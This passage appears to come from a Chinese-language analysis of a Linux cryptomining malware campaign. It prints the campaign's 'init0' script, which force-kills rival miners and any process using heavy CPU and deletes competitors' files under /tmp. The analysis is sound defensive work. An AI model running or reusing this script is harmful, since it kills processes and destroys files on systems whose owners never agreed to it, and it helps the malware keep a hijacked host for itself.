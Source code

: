 
<br>
接着执行dota/.rsync/a/a，a脚本执行init0，就如注释所言，杀死加密矿工的脚本，结束竞品的shell程序，挖矿程序启动后会结束大部分挖矿软件的进程,并删除其他挖矿软件相关文件，独占资源。
**init0**
```
#!/bin/sh

##########################################################################################\
### A script for killing cryptocurrecncy miners in a Linux enviornment
### Provided with zero liability (!)
###
### Some of the malware used as sources for this tool:
### https://pastebin.com/pxc1sXYZ
### https://pastebin.com/jRerGP1u
### SHA256: 2e3e8f980fde5757248e1c72ab8857eb2aea9ef4a37517261a1b013e3dc9e3c4
##########################################################################################\

# Killing processes by name, path, arguments and CPU utilization
processes(){
	killme() {
	  killall -9 chron-34e2fg;ps wx|awk '/34e|r\/v3|moy5|defunct/' | awk '{print $1}' | xargs kill -9 & > /dev/null &
	}

	killa() {
	what=$1;ps auxw|awk "/$what/" |awk '!/awk/' | awk '{print $2}'|xargs kill -9&>/dev/null&
	}

	killa 34e2fg
	killme
	
	# Killing big CPU
	VAR=$(ps uwx|awk '{print $2":"$3}'| grep -v CPU)
	for word in $VAR
	do
	  CPUUSAGE=$(echo $word|awk -F":" '{print $2}'|awk -F"." '{ print $1}')
	  if [ $CPUUSAGE -gt 45 ]; then echo BIG $word; PID=$(echo $word | awk -F":" '{print $1'});LINE=$(ps uwx | grep $PID);COUNT=$(echo $LINE| grep -P "er/v5|34e2|Xtmp|wf32N4|moy5Me|ssh"|wc -l);if [ $COUNT -eq 0 ]; then echo KILLING $line; fi;kill $PID;fi;
	done

	killall \.Historys
	killall \.sshd
	killall neptune
	killall xm64
	killall xm32
	killall ld-linux
	killall xmrig
	killall \.xmrig
	killall suppoieup

	pkill -f sourplum
	pkill wnTKYg && pkill ddg* && rm -rf /tmp/ddg* && rm -rf /tmp/wnTKYg
	
	ps auxf|grep -v grep|grep "mine.moneropool.com"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:8080"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:8080"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "119.9.76.107:443"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "monerohash.com"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "/tmp/a7b104c270"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:6666"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:7777"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmr.crypto-pool.fr:443"|awk '{print $2}'|xargs kill -9
```
